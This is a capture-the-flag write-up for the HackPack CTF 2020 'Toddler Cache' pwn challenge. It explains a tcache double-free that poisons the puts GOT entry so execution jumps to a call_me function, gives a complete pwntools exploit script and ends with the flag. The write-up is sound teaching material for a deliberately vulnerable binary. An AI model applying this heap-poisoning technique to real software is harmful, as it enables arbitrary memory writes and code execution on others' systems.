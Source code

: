 <h1>Toddler Cache</h1>
<h2>HackPack CTF 2020 PWN</h2>

<h3>Problem:</h3>
"Welcome to ToddlerCache (t-cache for short)"

<h3>Solution:</h3>
Based on the problem, this is going to be a tcachebin exploit.  After decompiling and running a few tests through gdb we can see that this is a double free (and use after free) tcachebin vulnerability.  The goal is clearly laid out when we come across the function call_me.  The tcache vulnerability will allow us to perform arbitrary writes.  Another thing to note is no PIE so we can easily use instructions on the text segment.

First we can allocate two entries and use vis to take a look at the chunks.

![Image of Vis01](https://github.com/h3lpful/ctf_writeups/blob/master/toddler_cache/images/vis01.png)

Then we can perform a double free, since tcache only makes sure you dont free the same chunk twice in a row, we will free 1, then 0, then 1.

![Image of Vis02](https://github.com/h3lpful/ctf_writeups/blob/master/toddler_cache/images/vis02.png)

Notice how each of these heap chunks are pointing to each other.  tcache stores the location of the next chunk to be allocated in itself, and since they are both pointing to each other we can now write a memory location in the lower one.  We can choose the current location of puts on the plt (0x602020) and write it to chunk 1 with the write_entry function.

![Image of Vis03](https://github.com/h3lpful/ctf_writeups/blob/master/toddler_cache/images/vis03.png)

Now we can make 2 new entries, write to entry 3 (the newest one allocated at 0x602020) and write the address of call_me (0x400837)

![Image of puts](https://github.com/h3lpful/ctf_writeups/blob/master/toddler_cache/images/puts.png)

Now when the function tries to call puts we will get a shell.  Here is the exploit I used.

```Python3

from pwn import *

target = './toddler_cache'

#context.log_level = 'error'
context.update(terminal = ['tmux','splitw'])

#==========================================================
#           FUNCTIONS
#==========================================================

def newEntry():
    p.recvuntil('>')
    p.sendline('1')

def writeEntry(eid, entry):
    p.recvuntil('>')
    p.sendline('2')
    p.recvuntil('write to')
    p.sendline(eid)
    p.recvuntil('write?')
    p.sendline(entry)

def freeEntry(eid):
    p.recvuntil('>')
    p.sendline('3')
    p.sendline(eid)

#==========================================================
#           CODE
#==========================================================

p = process(target, env={"LD_PRELOAD":"./glibc_versions/libc-2.26.so"})

#p = remote('cha.hackpack.club',41703)

gdb.attach(p)

newEntry()
newEntry()

freeEntry('1')
freeEntry('0')
freeEntry('1')


writeEntry('1', p64(0x602020))

newEntry()
newEntry()

writeEntry('3', p64(0x400837))

p.interactive()

```
flag{n0w_th4ts_a_p0is0n3d_t_c4ch3}
